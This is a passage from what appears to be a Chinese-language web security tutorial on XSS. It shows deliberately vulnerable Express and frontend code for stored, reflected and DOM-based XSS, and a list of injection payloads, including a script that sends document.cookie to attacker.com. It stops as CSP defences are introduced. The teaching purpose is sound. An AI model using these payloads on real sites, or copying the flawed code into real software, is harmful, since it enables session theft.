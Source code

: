       app.get('/comments', (req, res) => {
        const comments = db.getComments();
        let html = '<h1>Comments</h1>';
        comments.forEach(comment => {
          // !!! DANGER: Rendering raw user input !!!
          html += `<div class="comment">${comment.text}</div>`;
        });
        res.send(html);
      });
      ```
    - *攻击者提交的评论*: `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>`
    - *后果*: 当其他用户查看评论页面时，他们的 Cookie 会被发送到攻击者的服务器。
  - **反射型 XSS (Reflected XSS)**:
    - *场景*: 一个搜索页面，将搜索词直接显示在结果页上。
    - *易受攻击的代码 (Node.js + Express 伪代码)*:
      ```javascript
      app.get('/search', (req, res) => {
        const query = req.query.q; // Raw query from URL parameter
        const results = db.search(query);
        // !!! DANGER: Reflecting raw user input !!!
        let html = `<h2>Search results for: ${query}</h2>`;
        // ... render search results ...
        res.send(html);
      });
      ```
    - *攻击者构造的恶意链接*: `http://example.com/search?q=<script>alert('XSS!')</script>`
    - *后果*: 诱导用户点击此链接后，用户的浏览器会执行 `<script>alert('XSS!')</script>`。
  - **DOM 型 XSS (DOM-based XSS)**:
    - *场景*: 前端 JavaScript 根据 URL 的 hash 值动态修改页面内容。
    - *易受攻击的代码 (前端 JS)*:
      ```javascript
      // Frontend JavaScript
      function displayContentFromHash() {
          const contentDiv = document.getElementById('welcome-message');
          try {
              // !!! DANGER: Using location.hash directly in innerHTML !!!
              const userName = decodeURIComponent(location.hash.substring(1)); // Get name from #<name>
              if (userName) {
                  contentDiv.innerHTML = 'Welcome, ' + userName + '!'; // Vulnerable point
              }
          } catch (e) {
              console.error("Error processing hash", e);
          }
      }

      window.addEventListener('hashchange', displayContentFromHash);
      // Initial load
      displayContentFromHash();
      ```
    - *攻击者构造的恶意链接*: `http://example.com/#<img src=x onerror=alert(document.domain)>`
    - *后果*: 用户访问此链接时，`onerror` 中的脚本会在用户的浏览器中执行，无需经过服务器。
- **攻击手段 (注入点)**:
  - HTML 内容注入: `<div>{userInput}</div>` -> `<div><script>alert(1)</script></div>`
  - HTML 属性注入: `<img src="x" onerror="{userInput}">` -> `<img src="x" onerror="alert(document.cookie)">`
  - JavaScript 注入: `<script>var data = "{userInput}";</script>` -> `<script>var data = "";alert(1);//";</script>`
  - CSS 注入: `<div style="width: {userInput};">` -> `<div style="width: expression(alert(1));">` (旧 IE) 或利用 `background:url("javascript:alert(1)")` 等。
  - URL 注入: `<a href="{userInput}">Click Me</a>` -> `<a href="javascript:alert(document.cookie)">Click Me</a>`
- **防御措施**:
  - **内容安全策略 (CSP - Content Security Policy)**: 通过 HTTP 响应头定义浏览器允许加载和执行资源的策略，是缓解 XSS 的核心机制。